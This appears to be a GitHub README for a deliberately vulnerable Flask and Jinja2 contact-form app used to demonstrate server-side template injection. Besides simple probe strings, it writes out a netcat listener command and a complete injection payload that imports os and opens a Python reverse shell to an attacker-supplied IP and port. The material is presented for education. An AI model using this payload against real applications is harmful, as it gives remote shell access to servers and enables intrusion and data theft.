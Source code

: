 
# SSTI exploit on flask

This repository contains a simple web application that demonstrates a Server-Side Template Injection (SSTI) vulnerability using Flask and Jinja2.

## Description


Server-Side Template Injection (SSTI) is a type of vulnerability that allows an attacker to inject and execute arbitrary code on the server. In this demonstration, we showcase how a vulnerable web application can lead to SSTI when user-supplied data is not properly sanitized before being rendered as a template.

The application is built with Python, Flask, and Jinja2, and it allows users to enter their email in a contact form. However, the application is not properly validating and sanitizing the email input, which opens up an opportunity for an attacker to perform template injection.

Warning: Do not deploy this application in a production environment. It is intentionally vulnerable and should only be used for educational purposes.


## Installation

Clone this repo

```bash
  cd jinja-ssti
  
  python3 app.py 

  go to : http://127.0.0.1:5000

  try ssti vulnerabilities with jinja : 

  {{7*7}}
  {{config}}


```
    
## gain access to reverse shell


### in your terminal : 
```bash

nc -nlvp PORT

```

### in web app : 
change this code below with : 

- the same port than netcat

- your ip (wlan0)

- don't touch the quotes
```bash

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

## Documentation

[Command line](https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6)


## Authors

- [@Lorenzo](https://github.com/clone1887)
- [@Boris the racoon](https://github.com/borisbecode)
- [@Jordan](https://github.com/Jordan-Argyropoulos)
- [@Xavier](https://github.com/xavierpier)
- [@Seb](https://github.com/)



![Logo](https://media.giphy.com/media/12vP3dyG40ttqE/giphy.gif)

